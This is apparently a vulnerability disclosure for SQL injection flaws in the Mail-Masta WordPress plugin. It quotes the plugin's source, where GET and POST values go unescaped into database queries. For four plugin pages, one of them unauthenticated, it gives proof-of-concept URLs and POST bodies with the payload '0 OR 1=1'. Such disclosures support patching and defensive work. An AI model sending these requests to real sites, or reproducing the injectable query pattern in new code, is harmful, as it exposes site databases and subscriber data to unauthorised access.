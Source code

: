 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================

